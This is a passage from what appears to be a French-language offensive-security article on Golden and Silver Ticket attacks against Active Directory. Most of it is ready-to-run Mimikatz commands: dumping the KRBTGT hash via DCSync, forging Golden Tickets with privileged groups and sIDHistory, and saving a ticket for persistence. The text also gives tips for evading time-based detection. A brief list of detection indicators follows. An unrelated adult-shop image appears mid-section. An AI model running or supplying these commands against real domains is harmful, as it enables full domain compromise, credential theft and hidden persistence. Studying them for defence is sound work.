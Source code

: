 * **Privilèges administrateur de domaine** : Accès initial pour extraire les informations nécessaires
    

**Processus d'extraction avec Mimikatz :**

```powershell
# Extraction du hash KRBTGT via DCSync
mimikatz.exe "lsadump::dcsync /user:DOMAIN\KRBTGT /csv" "exit"

# Extraction alternative via dump NTDS.dit
mimikatz.exe "lsadump::lsa /patch" "exit"

# Vérification des informations extraites
mimikatz.exe "lsadump::trust /patch" "exit"
```

La commande DCSync exploite les privilèges de réplication pour extraire directement les hashes depuis le contrôleur de domaine sans accès physique au serveur .

**Création et utilisation du Golden Ticket :**

```powershell
# Création d'un Golden Ticket avec privilèges étendus
kerberos::golden /user:AdminFantome /domain:corp.local /sid:S-1-5-21-xxx /krbtgt:hash_ntlm /groups:512,513,518,519,520 /startoffset:-10 /endin:600 /renewmax:10080 /ptt

# Golden Ticket avec sIDHistory pour accès cross-domain
kerberos::golden /user:DomainAdmin /domain:child.corp.local /sid:S-1-5-21-xxx /krbtgt:hash_ntlm /sids:S-1-5-21-root-519 /ptt

# Persistence via ticket sauvegardé
kerberos::golden /user:Persist /domain:corp.local /sid:S-1-5-21-xxx /krbtgt:hash_ntlm /ticket:golden.kirbi
```

Les paramètres `/startoffset` et `/endin` permettent de manipuler les timestamps pour éviter la détection basée sur les horaires anormaux .

**Détection des Golden Tickets :**

Les indicateurs de compromission 2025 incluent :

* **Anomalies temporelles** : Tickets avec des durées de vie inhabituellement longues
    
* **Comptes fantômes** : Authentifications réussies pour des comptes inexistants dans AD
    
* **Patterns géographiques** : Authentifications simultanées depuis des emplacements impossibles
    
* **Analyse des Event ID 4768/4769** : Corrélation des demandes de tickets suspectes
    

### Silver Ticket : Accès Service-Spécifique Furtif

![SILVER TICKET – Forbidden Life](https://lifeisporno.com/cdn/shop/files/LiP_Silver_TICKET_0d895497-6739-4e55-b1b4-4f499fa87ce6.png?v=1685001617 align="left")

Les attaques Silver Ticket forgent des tickets de service (TGS) spécifiques pour accéder à des services individuels sans interaction avec le KDC. Cette approche offre une furtivité supérieure aux Golden Tickets tout en maintenant un accès persistant aux ressources critiques.
